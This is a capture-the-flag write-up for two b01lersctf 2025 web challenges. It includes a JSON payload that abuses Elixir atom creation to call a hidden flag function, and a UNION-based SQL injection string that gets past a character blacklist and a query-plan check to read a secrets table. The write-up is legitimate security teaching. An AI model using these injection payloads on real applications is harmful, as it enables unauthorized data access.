 ```yaml
---
title: 'some b01lersctf 2025 writeups'
description: 'some b01lersctf 2025 writeups'
date: 2025-04-20
tags: ['web', 'ctf', 'writeup']
image: './boilers.png'
authors: ['jp']
---
```


# Background Information
I participated in b01lersctf 2025 with Cosmic Bit Flips and we got 20th with most members kinda busy w other things so I think we did good. I need to get better at web fr... (lowkey these solves were kinda meaningless lmao)

# Web

## Atom Bomb

> This new atom bomb early warning system is quite strange...

Ok, looking at the frontend we see a button that will tell us the "bomb alerts" with a bunch of random statuses.

![image](./res/atombomb.png)

Ok, so let's do a little source code analysis and try to find the bug. We find a flag function `bomb()`:

```ex
def bomb() do
    flag = case File.read("flag.txt") do
      {:ok, flag} -> flag
      {:error, _} -> "bctf{REDACTED}"
    end

    "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with #{flag}"
  end
```

There is a weakness with the `atomizer` function:

```
def atomizer(params) when is_binary(params) do
  if String.at(params, 0) == ":" do
    atom_string = String.slice(params, 1..-1//1)
    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end
```

This allows attackers to create arbitrary atoms from user input if string begins with ":". Atoms can also represent function calls, so we basically need to function call to `bomb()`

Well, when testing I ended up developing a payload that led to a very special error message.

```json
{
  "impact": ":bomb"
}
```

```
{"error":"function :bomb.bomb/0 is undefined (module :bomb is not available)"}
```

:think:. Well, the error tells that the bomb function is undefined since there is no :bomb module, we can just change the payload to the following:

```json
{
  "impact": {
    "bomb": ":Elixir.AtomBomb"
  }
}
```

So basically, what happens is that when it accesses this atom, it will do a function call to bomb, but then throw an exception because it was not expecting string. (ok ngl someone else who solved it can explain it much better lol)

```bash
'key :altitude not found in: "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with bctf{n0w_w3_ar3_a1l_d3ad_:(_8cd12c17102ac269}\\r\\n"\n\nIf you are using the dot syntax, such as map.field, make sure the left-hand side of the dot is a map'
```

## Defense in Depth

> Instead of making AI slop #7749 and applying to YC, making a security product might be a better play. Layers of defenses

Looking at the frontend we just see a bunch of random text, so let's dig into the source code.

So we see a mysql setup with the flag:

```sql
-- Create database and read-only user
CREATE DATABASE IF NOT EXISTS app_db;
CREATE USER IF NOT EXISTS 'b01lers'@'%' IDENTIFIED BY 'redacted';
GRANT SELECT ON app_db.* TO 'b01lers'@'%';
FLUSH PRIVILEGES;

USE app_db;

-- Create users table
CREATE TABLE IF NOT EXISTS users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL,
    email VARCHAR(255) NOT NULL UNIQUE
) ENGINE=InnoDB;

-- Create secrets table
CREATE TABLE IF NOT EXISTS secrets (
    id INT AUTO_INCREMENT PRIMARY KEY,
    `key` VARCHAR(255) NOT NULL,
    value TEXT NOT NULL
) ENGINE=InnoDB;

-- Insert sample data
INSERT IGNORE INTO users (name, email) VALUES
    ('neil', 'freshmen@purdue.eduuu'),
    ('gabe', 'boss@retirement.home'),
    ('kevin', 'frontend@kev.in');

INSERT IGNORE INTO secrets (`key`, value) VALUES
    ('junk', 'Wrong turn baby'),
    ('flag', 'bctf{tungtungtungtungtungsahua}');

-- Verify permissions
SHOW GRANTS FOR 'b01lers'@'%';
```

Ok, and we also have main python backend source code that exposes an sql injection vulnerability which is  `query = f"SELECT * from users WHERE name = '{name}'"`

```python
@app.route('/info/<path:name>', methods=['GET'])
def get_user_info(name):
    if len(name) > 100:
        return jsonify({"Message": "Why the long name? Are you Tung Tung Tung Tung Tung Tung Tung Sahua????"}), 403
    try:
        db = get_db()
        cursor = db.cursor()
    except Exception:
        print(traceback.format_exc())
        return jsonify({"Error": "Something very wrong happened, either retry or contact organizers if issue persists!"}), 500
    
    # Verify that the query is good and does not touch the secrets table
    #ok so this query stuff interacts with the sqlite 
    query = f"SELECT * from users WHERE name = '{name}'"
    for item in BLACKLIST:
        if item in query:
            return jsonify({"Message": f"Probably sus"}), 403
    try:
        explain = "EXPLAIN QUERY PLAN " + query
        cursor.execute(explain)
        result = cursor.fetchall()
        if len(result) > 7:
            return jsonify({"Message": "Probably sus"}), 403
        for item in result:
            if "secrets" in item[3]:
                return jsonify({"Message": "I see where you're going..."}), 403
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({"Message": f"Probably sus"}), 403

    # Now let the query through to the real production db
    
    cursor.close()
    # ohhh fetches the first instance?
    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()[0]
        cur.close()
        return str(records)
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({'Error': "It did not work boss!"}), 400
```

Ok, so we can see it first passes through a bunch of checks before actually being executed and the result being returned to us. The server performs these checks in sqlite3. Here are the checks:

1. If payload is > 100 chars, throw error
2. check if there is any char in blacklist: BLACKLIST = ['(', ')', '-', '#', '%', '+', ';']
3. try EXPLAIN QUERY PLAN our payload, if very complex (len(result) > 7), then throw error. If secrets in the third index of the result, throw error. Finally if the overall EXPLAIN QUERY PLAN fails, also throw error

Finally, if it passes through all these checks, it will open a mysql connection and execute our query and return the result.

Let's craft a sql query that won't throw errors on sqlite3 or mysql and passes all the checks. After some time, I crafted this:

`'OR 1=0 UNION SELECT * FROM secrets AS x WHERE x.key='flag`

Place that after /info and get yourself a nice flag.

`(2, 'flag', 'bctf{7h1s_1s_prob4bly_the_easiest_web_s0_go_s0lve_smt_3ls3_n0w!!!}')`